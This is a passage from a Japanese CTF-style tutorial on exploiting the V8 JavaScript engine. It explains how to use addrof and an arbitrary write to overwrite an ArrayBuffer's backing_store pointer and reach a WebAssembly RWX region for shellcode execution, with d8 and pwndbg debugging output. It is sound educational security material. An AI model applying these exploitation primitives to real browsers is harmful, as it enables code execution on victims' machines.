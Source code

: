 0x68だけ足した0x2c8e08211ef4にこのRWX領域を指すポインタがあることがわかる。

既にaddrofが実現出来ているので、インスタンスの配置箇所を`addrof(wasm_instance)`で取得し、固定オフセットの0x68を足せばRWX領域を指すポインタのアドレスが判明する。というわけで、AARでここの値を読んでAAWでシェルコードを流し込んでから実行すればシェルコードが実行されるはずなのだが、上で説明したAAWはポインタが圧縮されていることからv8 heap内に限ったものであり、その外側にあるこのRWX領域に対しては通用しない。

### AAW

もし、v8 heapの外側を指すポインタを有する何らかのオブジェクトのポインタを書き換えることができれば、そのオブジェクトを通じて読み書きが出来る可能性が出てくる。流れとしては、そのようなオブジェクトのアドレスをaddrofで特定してから、v8 heapの外側を指すポインタに相当する位置までの固定オフセットを足し、AAWで別のポインタへ書き換えればそのオブジェクトが操作するメモリは別の箇所となる。

そのような都合の良いオブジェクトとして、Float64とBigUint64の変換でも使った`ArrayBuffer`を用いる。また、`ArrayBuffer`を直接読み書きすることはなく、`Float64Array`のような`TypedArray`や`DataView`を通じて読み書きする。実際に`ArrayBuffer`に対して読み書きをしている様子は次の通り。

```txt
$ ./d8 --allow-natives-syntax
V8 version 8.7.9
d8> let buf = new ArrayBuffer(0x100)
undefined
d8> let dv = new DataView(buf)
undefined
d8> dv.setBigUint64(0, 0xdeadbeefcafebaben, true)
undefined
d8> %DebugPrint(buf)
DebugPrint: 0x250608084a31: [JSArrayBuffer]
 - map: 0x25060824317d <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x250608208ba9 <Object map = 0x2506082431a5>
 - elements: 0x2506080426dd <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x561a45699810
 - byte_length: 256
 ... (略)
```

backing_storeがbufの実体バイトが入っているアドレスで実際にここを見てみると、`setBigUint64`で入れた0xdeadbeefcafebabeが確認できる。

```txt
pwndbg> x/8gx 0x561a45699810
0x561a45699810: 0xdeadbeefcafebabe      0x0000000000000000
0x561a45699820: 0x0000000000000000      0x0000000000000000
0x561a45699830: 0x0000000000000000      0x0000000000000000
0x561a45699840: 0x0000000000000000      0x0000000000000000
pwndbg> 
```

後は、bufにおけるbacking_storeの固定オフセットを求める。`DebugPrint`で判明したbufのアドレス付近でbacking_storeをデバッガで探す。

```txt
pwndbg> x/16gx 0x250608084a31-1
0x250608084a30: 0x080426dd0824317d      0x00000100080426dd
0x250608084a40: 0x4569981000000000      0x456999500000561a
0x250608084a50: 0x000000020000561a      0x0000000000000000
0x250608084a60: 0x0000000000000000      0x9d17854a08042545
0x250608084a70: 0x7566280a00000adc      0x29286e6f6974636e
0x250608084a80: 0x20657375220a7b20      0x3b22746369727473
0x250608084a90: 0x6d2041202f2f0a0a      0x76696e752065726f
0x250608084aa0: 0x7473206c61737265      0x20796669676e6972
pwndbg> search -8 0x561a45699810
Searching for value: b'\x10\x98iE\x1aV\x00\x00'
[anon_250608080] 0x250608084a44 0x561a45699810
[anon_250608080] 0x250608086164 0x561a45699810
[heap]   
```


[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる